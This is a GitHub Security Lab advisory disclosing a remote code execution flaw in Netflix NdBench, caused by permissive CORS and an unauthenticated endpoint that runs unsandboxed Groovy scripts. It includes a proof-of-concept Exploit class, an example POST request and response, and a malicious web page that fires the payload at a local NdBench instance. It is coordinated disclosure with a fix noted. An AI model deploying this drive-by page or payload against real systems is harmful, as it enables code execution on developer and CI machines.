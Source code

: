 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">June 22, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2021-064: Arbitrary code execution in Netflix NdBench</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/pwntester">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/125701?s=35" height="35" width="35">
        <span>Alvaro Munoz</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      
<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>2021-04-07: Reported to Netflix Security Team</li>
  <li>2021-05-03: Issue is <a href="https://github.com/Netflix/ndbench/commit/987a7e4e39d1a4df18d0a8cd02d4ba1b47c19f62">fixed</a></li>
</ul>

<h2 id="summary">Summary</h2>
<p>An attacker may get arbitrary code execution on NDBench servers by providing arbitrary Groovy scripts.</p>

<h2 id="product">Product</h2>
<p>Netflix NdBench</p>

<h2 id="tested-version">Tested Version</h2>
<p>v0.5.0-rc.1 (2021-03-19)</p>

<h2 id="details">Details</h2>

<h3 id="issue-1-overly-broad-cors-configuration">Issue 1: Overly broad CORS configuration</h3>
<p>NdBench is configured with an overly broad default CORS configuration which allows any site to send it cross-site requests:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Content-Type, content-type
Access-Control-Allow-Method: OPTIONS, GET, POST
</code></pre></div></div>

<h4 id="impact">Impact</h4>
<p>This issue may let any site to send requests to the REST API.</p>

<h3 id="issue-2-unrestricted-groovy-script">Issue 2: Unrestricted Groovy Script</h3>
<p>The application is designed to evaluate Groovy scripts as described in the <a href="https://github.com/Netflix/ndbench/wiki/Dynamic-Plugin">Dynamic plugin configuration</a>. This service is backed up by the <a href="https://github.com/Netflix/ndbench/blob/91ba19a7d5d6d4490ea2af3064defb1ec571b25d5/ndbench-core/src/main/java/com/netflix/ndbench/core/resources/NdBenchResource.java#L71"><code class="language-plaintext highlighter-rouge">NdBenchResource</code></a> endpoint:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>    <span class="nd">@Path</span><span class="o">(</span><span class="s">"/initfromscript"</span><span class="o">)</span>
    <span class="nd">@POST</span>
    <span class="nd">@Consumes</span><span class="o">(</span><span class="nc">MediaType</span><span class="o">.</span><span class="na">MULTIPART_FORM_DATA</span><span class="o">)</span>
    <span class="nd">@Produces</span><span class="o">(</span><span class="nc">MediaType</span><span class="o">.</span><span class="na">APPLICATION_JSON</span><span class="o">)</span>
    <span class="kd">public</span> <span class="nc">Response</span> <span class="nf">initfromscript</span><span class="o">(</span><span class="nd">@FormDataParam</span><span class="o">(</span><span class="s">"dynamicplugin"</span><span class="o">)</span> <span class="nc">String</span> <span class="n">dynamicPlugin</span><span class="o">)</span> <span class="kd">throws</span> <span class="nc">Exception</span> <span class="o">{</span>
        <span class="k">try</span> <span class="o">{</span>
            <span class="nc">GroovyClassLoader</span> <span class="n">gcl</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">GroovyClassLoader</span><span class="o">();</span>

            <span class="nc">Class</span> <span class="n">classFromScript</span> <span class="o">=</span> <span class="n">gcl</span><span class="o">.</span><span class="na">parseClass</span><span class="o">(</span><span class="n">dynamicPlugin</span><span class="o">);</span>

            <span class="nc">Object</span> <span class="n">objectFromScript</span> <span class="o">=</span> <span class="n">classFromScript</span><span class="o">.</span><span class="na">newInstance</span><span class="o">();</span>

            <span class="nc">NdBenchClient</span> <span class="n">client</span> <span class="o">=</span> <span class="o">(</span><span class="nc">NdBenchClient</span><span class="o">)</span> <span class="n">objectFromScript</span><span class="o">;</span>

            <span class="n">ndBenchDriver</span><span class="o">.</span><span class="na">init</span><span class="o">(</span><span class="n">client</span><span class="o">);</span>
            <span class="k">return</span> <span class="nf">sendSuccessResponse</span><span class="o">(</span><span class="s">"NdBench client - dynamic plugin initiated with script!"</span><span class="o">);</span>

        <span class="o">}</span> <span class="k">catch</span> <span class="o">(</span><span class="nc">Exception</span> <span class="n">e</span><span class="o">)</span> <span class="o">{</span>
            <span class="n">logger</span><span class="o">.</span><span class="na">error</span><span class="o">(</span><span class="s">"Error initializing dynamic plugin from script"</span><span class="o">,</span> <span class="n">e</span><span class="o">);</span>
            <span class="k">return</span> <span class="nf">sendErrorResponse</span><span class="o">(</span><span class="s">"script initialization failed for dynamic plugin!"</span><span class="o">,</span> <span class="n">e</span><span class="o">);</span>

        <span class="o">}</span>
    <span class="o">}</span>
</code></pre></div></div>

<p>The Groovy engine is not sandboxed which allows attackers to run arbitrary code by sending requests to this unauthenticated endpoint.</p>

<p>In addition, this endpoint accepts <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests">simple POST requests</a> which trigger no preflight requests. Even if it did, the default CORS configuration will allow any site to send cross-origin requests to this endpoint. As a result an attacker can host a malicious web page that, when visited, will send a malicious POST request to the localhost server and run arbitrary code on the developer machine or CI/CD server running NdBench.</p>

<h4 id="impact-1">Impact</h4>
<p>This issue may lead to Remote Code Execution. Any developer running NdBench may get compromised by visiting a malicious web site.</p>

<h4 id="resources">Resources</h4>
<p>Example payload:</p>
<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="kd">public</span> <span class="kd">class</span> <span class="nc">Exploit</span> <span class="o">{</span>
    <span class="kd">public</span> <span class="nf">Exploit</span><span class="o">()</span> <span class="o">{</span>
        <span class="nc">Runtime</span><span class="o">.</span><span class="na">getRuntime</span><span class="o">().</span><span class="na">exec</span><span class="o">(</span><span class="s">"touch /tmp/pwned-ndbench"</span><span class="o">);</span>
    <span class="o">}</span>
<span class="o">}</span>
</code></pre></div></div>

<p>Example request script:</p>
<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>POST http://localhost:8080/REST/ndbench/driver/initfromscript 
dynamicplugin=!file(exploit.json)
</code></pre></div></div>

<p>Example server response:</p>
<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>500 Internal Error
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Content-Type, content-type
Access-Control-Allow-Method: OPTIONS, GET, POST
Content-Type: application/json
Transfer-Encoding: chunked
Date: Wed, 07 Apr 2021 09:30:05 GMT
Connection: close

{
  "detailedMessage": "java.lang.ClassCastException: Exploit cannot be cast to com.netflix.ndbench.api.plugin.NdBenchClient\n\tat com.netflix.ndbench.core.resources.NdBenchResource.initfromscript(NdBenchResource.java:83)\n\tat sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)\n\tat sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)\n\tat sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)\n\tat java.lang.reflect.Method.invoke(Method.java:498)\n\tat com.sun.jersey.spi.container.JavaMethodInvokerFactory$1.invoke(JavaMethodInvokerFactory.java:60)\n\tat com.sun.jersey.server.impl.model.method.dispatch.AbstractResourceMethodDispatchProvider$ResponseOutInvoker._dispatch(AbstractResourceMethodDispatchProvider.java:205)\n\tat com.sun.jersey.server.impl.model.method.dispatch.ResourceJavaMethodDispatcher.dispatch(ResourceJavaMethodDispatcher.java:75)\n\tat com.sun.jersey.server.impl.uri.rules.HttpMethodRule.accept(HttpMethodRule.java:302)\n\tat com.sun.jersey.server.impl.uri.rules.RightHandPathRule.accept(RightHandPathRule.java:147)\n\tat com.sun.jersey.server.impl.uri.rules.ResourceClassRule.accept(ResourceClassRule.java:108)\n\tat com.sun.jersey.server.impl.uri.rules.RightHandPathRule.accept(RightHandPathRule.java:147)\n\tat com.sun.jersey.server.impl.uri.rules.RootResourceClassesRule.accept(RootResourceClassesRule.java:84)\n\tat com.sun.jersey.server.impl.application.WebApplicationImpl._handleRequest(WebApplicationImpl.java:1542)\n\tat com.sun.jersey.server.impl.application.WebApplicationImpl._handleRequest(WebApplicationImpl.java:1473)\n\tat com.sun.jersey.server.impl.application.WebApplicationImpl.handleRequest(WebApplicationImpl.java:1419)\n\tat com.sun.jersey.server.impl.application.WebApplicationImpl.handleRequest(WebApplicationImpl.java:1409)\n\tat com.sun.jersey.spi.container.servlet.WebComponent.service(WebComponent.java:409)\n\tat com.sun.jersey.spi.container.servlet.ServletContainer.service(ServletContainer.java:558)\n\tat com.sun.jersey.spi.container.servlet.ServletContainer.service(ServletContainer.java:733)\n\tat javax.servlet.http.HttpServlet.service(HttpServlet.java:742)\n\tat com.google.inject.servlet.ServletDefinition.doServiceImpl(ServletDefinition.java:287)\n\tat com.google.inject.servlet.ServletDefinition.doService(ServletDefinition.java:277)\n\tat com.google.inject.servlet.ServletDefinition.service(ServletDefinition.java:182)\n\tat com.google.inject.servlet.ManagedServletPipeline.service(ManagedServletPipeline.java:91)\n\tat com.google.inject.servlet.FilterChainInvocation.doFilter(FilterChainInvocation.java:85)\n\tat com.google.inject.servlet.ManagedFilterPipeline.dispatch(ManagedFilterPipeline.java:119)\n\tat com.google.inject.servlet.GuiceFilter$1.call(GuiceFilter.java:133)\n\tat com.google.inject.servlet.GuiceFilter$1.call(GuiceFilter.java:130)\n\tat com.google.inject.servlet.GuiceFilter$Context.call(GuiceFilter.java:203)\n\tat com.google.inject.servlet.GuiceFilter.doFilter(GuiceFilter.java:130)\n\tat org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)\n\tat org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)\n\tat org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:198)\n\tat org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)\n\tat org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:493)\n\tat org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:140)\n\tat org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:81)\n\tat org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:87)\n\tat org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:342)\n\tat org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:800)\n\tat org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)\n\tat org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:806)\n\tat org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1498)\n\tat org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)\n\tat java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)\n\tat java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)\n\tat org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)\n\tat java.lang.Thread.run(Thread.java:748)",
  "isSuccess": false,
  "message": "script initialization failed for dynamic plugin! Exploit cannot be cast to com.netflix.ndbench.api.plugin.NdBenchClient !!!  "
}
</code></pre></div></div>

<p>Regardless of the error, the code in the static initializer block and <code class="language-plaintext highlighter-rouge">init</code> method was run.</p>

<p>The following page can be served on an attacker controlled server to compromise any developer running ndbench which visits the page:</p>

<div class="language-html highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nt">&lt;html&gt;</span>
<span class="nt">&lt;head&gt;</span>
  <span class="nt">&lt;script </span><span class="na">type=</span><span class="s">"text/javascript"</span><span class="nt">&gt;</span>
    <span class="kd">var</span> <span class="nx">formData</span> <span class="o">=</span> <span class="k">new</span> <span class="nx">FormData</span><span class="p">();</span>
    <span class="kd">var</span> <span class="nx">content</span> <span class="o">=</span> <span class="s2">`
    public class Exploit {
      public Exploit() {
        Runtime.getRuntime().exec("touch /tmp/pwned-ndbench");
      }
    }`</span><span class="p">;</span>
    <span class="kd">var</span> <span class="nx">blob</span> <span class="o">=</span> <span class="k">new</span> <span class="nx">Blob</span><span class="p">([</span><span class="nx">content</span><span class="p">],</span> <span class="p">{</span> <span class="na">type</span><span class="p">:</span> <span class="dl">"</span><span class="s2">text/xml</span><span class="dl">"</span><span class="p">});</span>
    <span class="nx">formData</span><span class="p">.</span><span class="nx">append</span><span class="p">(</span><span class="dl">"</span><span class="s2">dynamicplugin</span><span class="dl">"</span><span class="p">,</span> <span class="nx">blob</span><span class="p">);</span>
    <span class="kd">var</span> <span class="nx">request</span> <span class="o">=</span> <span class="k">new</span> <span class="nx">XMLHttpRequest</span><span class="p">();</span>
    <span class="nx">request</span><span class="p">.</span><span class="nx">open</span><span class="p">(</span><span class="dl">"</span><span class="s2">POST</span><span class="dl">"</span><span class="p">,</span> <span class="dl">"</span><span class="s2">http://localhost:8080/REST/ndbench/driver/initfromscript</span><span class="dl">"</span><span class="p">);</span>
    <span class="nx">request</span><span class="p">.</span><span class="nx">send</span><span class="p">(</span><span class="nx">formData</span><span class="p">);</span>
  <span class="nt">&lt;/script&gt;</span>
<span class="nt">&lt;/head&gt;</span>
<span class="nt">&lt;body&gt;</span>/tmp/pwned-ndbench should have been created<span class="nt">&lt;/body&gt;</span>
<span class="nt">&lt;/html&gt;</span>
</code></pre></div></div>

<h2 id="credit">Credit</h2>
<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/pwntester">@pwntester (Alvaro Muñoz)</a>.</p>

<h2 id="contact">Contact</h2>
<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2021-064</code> in any communication regarding this issue.</p>


   